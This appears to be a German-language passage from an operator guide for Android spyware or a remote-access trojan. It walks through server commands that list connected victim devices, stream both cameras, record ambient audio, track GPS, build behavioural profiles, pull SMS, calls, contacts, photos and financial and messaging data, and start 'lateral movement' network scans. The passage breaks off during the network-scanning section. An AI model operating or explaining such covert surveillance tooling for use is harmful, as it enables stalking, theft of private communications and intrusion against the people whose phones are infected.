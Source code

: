 #### 2.3.3 Basis-Test durchführen
```bash
# Im Server-Terminal
> list                    # Zeigt verbundene Clients
> screenshot              # Test-Screenshot
> get-location           # GPS-Position
```

---

## ⚡ Phase 3: Operationen

### 3.1 Überwachung aktivieren

#### Erweiterte Surveillance starten
```bash
> surveillance-start
```

**Aktiviert:**
- 📹 Dual-Kamera-Streaming (Front + Rück)
- 🎤 Umgebungsaudio-Aufnahme
- 📍 GPS-Tracking (30s Intervalle)
- 📊 Verhaltensprofilierung

#### Surveillance-Daten abrufen
```bash
> get-surveillance-data
> behavioral-profile
> target-analysis
```

### 3.2 Datensammlung

#### Basis-Intelligence
```bash
> get-sms                 # SMS-Nachrichten
> get-calls              # Anrufliste
> get-contacts           # Kontakte
> get-files /sdcard/DCIM # Fotos
```

#### Erweiterte Intelligence
```bash
> social-intelligence         # Soziale Verbindungen
> financial-intelligence      # Finanz-Apps
> communication-intelligence  # Messaging-Apps
> comprehensive-scan          # Vollständiger Scan
```

### 3.3 Laterale Bewegung

#### Netzwerk scannen
```bash
> lateral-start           # Netzwerk-Discovery starten
> network-scan           # Geräte enumerieren
```
